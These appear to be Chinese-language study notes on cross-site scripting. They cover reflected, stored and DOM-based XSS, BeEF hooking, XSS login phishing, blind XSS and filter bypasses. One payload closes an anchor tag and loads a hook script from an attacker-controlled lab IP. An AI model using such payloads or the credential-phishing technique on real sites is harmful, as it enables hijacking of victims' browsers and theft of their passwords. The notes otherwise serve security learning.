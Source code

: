 # xss跨站脚本攻击

## xss分类

```
反射性：
与客户端交互，交互的数据不会被存在数据库中，一次性，一般出现在查询类界面。
存储型：
交互的数据被存在数据库中，永久性存储，留言板，注册等页面。
DOM型：
不与服务器进行交互，是一种通过DOM操作
```





## 反射型xss攻击（中低危）

![image-20240710151310098](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240710151310098.png)

查询框

使用beef-xss工具

将payload输入到输入框中

获取url,使用在线平台生成短网址

受害者访问后将获取受害者信息



![image-20240710152632048](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240710152632048.png)



## 存储型xss攻击（中高危）

![image-20240710153249909](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240710153249909.png)

留言板

将payload输入提交后每次访问该页面都将触发payload



## DOM型xss攻击

### 可能触发DOM型xss的js操作

```javascript
document.referer
window.name
location			url相关操作
innerHTML			给标签内部添加内容
documen.write
```





![image-20240710154051610](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240710154051610.png)

将我们输入的字符给到<a>标签

```
<a href="https://baidu.com" _msttexthash="27140139" _msthash="87">你看到了什么？</a>

尝试闭合<a>标签

构造payload
xx'>xxx</a><script src="http://192.168.137.130:3000/hook.js"></script>

```









## xss钓鱼用户名密码

构造脚本完成登录窗口



![image-20240710162456376](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240710162456376.png)

受害者登陆后将获取的用户名密码保存到攻击者服务器









## xss盲打

前端注入无回显，不知道是否成功

受害者查看数据后被攻击



## xss绕过

```
前端绕过：抓包通过工具发送请求绕过前端验证

后端验证：双写绕过，大小写绕过


```











































